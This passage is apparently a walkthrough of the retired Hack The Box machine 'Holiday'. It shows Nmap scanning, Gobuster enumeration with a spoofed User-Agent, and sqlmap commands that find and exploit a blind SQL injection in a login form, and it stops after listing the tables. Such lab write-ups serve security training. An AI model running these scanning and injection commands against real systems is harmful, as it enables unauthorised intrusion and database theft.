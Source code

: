 # Holiday

This is the write-up for the box Holiday that got retired at the 18th November 2017.
My IP address was 10.10.14.22 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.25    holiday.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/holiday.nmap 10.10.10.25
```

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c3:aa:3d:bd:0e:01:46:c9:6b:46:73:f3:d1:ba:ce:f2 (RSA)
|   256 b5:67:f5:eb:8d:11:e9:0f:dd:f4:52:25:9f:b1:2f:23 (ECDSA)
|_  256 79:e9:78:96:c5:a8:f4:02:83:90:58:3f:e5:8d:fa:98 (ED25519)
8000/tcp open  http    Node.js Express framework
|_http-title: Error
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 8000)

On the web page there is only an image of a hexagon and nothing interesting in the source code.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.25:8000 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -a Linux
```

It only finds something when the web page gets an **User-Agent** with the word _"Linux"_ in the HTTP request. The User-Agent in Gobuster can be changed withe the `-a` parameter.

This finds the path _/admin_ which forwards to _/login_ where it is possible to enter an username and a password.
Lets save the response from the box as _login.req_ and look for **SQL Injection** vulnerabilities with **SQLmap**:
```markdown
sqlmap -r login.req --risk 3 --level 5 --threads 10
```

The back-end Database Management System is **SQLite** and the _username_ parameter is vulnerable to a **Boolean-based Blind SQL Injection**.
Now it is possible to dump the tables from the database:
```markdown
sqlmap -r login.req --risk 3 --level 5 --threads 10 --tables
```
